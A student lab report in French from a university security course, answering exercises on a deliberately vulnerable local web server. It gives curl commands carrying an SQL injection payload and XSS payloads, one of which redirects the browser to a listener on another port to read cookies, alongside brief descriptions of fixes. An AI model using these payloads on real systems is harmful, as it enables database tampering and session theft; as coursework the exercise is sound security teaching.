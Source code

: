 # Rendu "Injection"

## Binome

Nom, Prénom, email: DEMEULENAERE Enzo enzo.demeulenaere.etu@univ-lille.fr
Nom, Prénom, email: BAHOUS Djilali djilali.bahous.etu@univ-lille.fr


## Question 1

* Quel est ce mécanisme? Le mécanisme mis en place consiste à passer une expression régulière sur la chaîne de caractère, regarder si des caractères autres qu'alphanumériques furent entrés. S'il y en a, la chaîne de caractères est refusée. 

* Est-il efficace? Pourquoi? 
Ce mécanisme est en partie efficace en raison du fait qu'il nous restreint à n'écrire que des caractères alphanumériques et empêche l'écriture de code. En revanche, pour un utilisateur malicieux, on peut imaginer l'envoi d'un paquet artificiel contenant les mêmes métadonnées que l'envoi de chaîne, mais contournant ainsi le regex. 
## Question 2

* Votre commande curl

curl "http://localhost:8080/" -X POST -H "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0" -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8" -H "Accept-Language: en-US,en;q=0.5" -H "Accept-Encoding: gzip, deflate, br" -H "Content-Type: application/x-www-form-urlencoded" -H "Origin: http://localhost:8080/" -H "Connection: keep-alive" -H "Referer: http://localhost:8080/" -H "Cookie: ExempleCookie="Valeur du cookie"" -H "Upgrade-Insecure-Requests: 1" -H "Sec-Fetch-Dest: document" -H "Sec-Fetch-Mode: navigate" -H "Sec-Fetch-Site: same-origin" -H "Sec-Fetch-User: ?1" --data-raw "chaine=malice et subterfuges&submit=OK"


## Question 3

* Votre commande curl qui va permettre de rajouter une entree en mettant un contenu arbutraire dans le champ 'who'
curl "http://localhost:8080/" -X POST -H "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0" -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8" -H "Accept-Language: en-US,en;q=0.5" -H "Accept-Encoding: gzip, deflate, br" -H "Content-Type: application/x-www-form-urlencoded" -H "Origin: http://localhost:8080/" -H "Connection: keep-alive" -H "Referer: http://localhost:8080/" -H "Cookie: ExempleCookie="Valeur du cookie"" -H "Upgrade-Insecure-Requests: 1" -H "Sec-Fetch-Dest: document" -H "Sec-Fetch-Mode: navigate" -H "Sec-Fetch-Site: same-origin" -H "Sec-Fetch-User: ?1" --data-raw "chaine=malice et subterfuges','macron') -- &submit=OK"

* Expliquez comment obtenir des informations sur une autre table

## Question 4

Rendre un fichier server_correct.py avec la correction de la faille de
sécurité. Expliquez comment vous avez corrigé la faille.

Cette faille a été corrigée en appliquant la regex prévue sur le serveur, une fois la chaine récupérée. Ainsi, même en utilisant la commande curl, nous devons respecter la regex pour inserer un element dans la table, bloquant ainsi les injections SQL

## Question 5

* Commande curl pour afficher une fenetre de dialog. 

curl "http://localhost:8080/" --data-raw "chaine=<script>alert('Salam')</script> &submit=OK"

* Commande curl pour lire les cookies

curl "http://localhost:8080/" --data-raw "chaine=<script>document.location='http://localhost:42069'</script> &submit=OK"

## Question 6

Rendre un fichier server_xss.py avec la correction de la
faille. Expliquez la demarche que vous avez suivi.

Nous avons echappé toutes les chaines de caractères qui pourront être envoyées en tant que requêtes sql.
Ainsi, aucune chaine de caractère ne correspondra à du code et le navigateur affichera le caractère correspondant au code html.


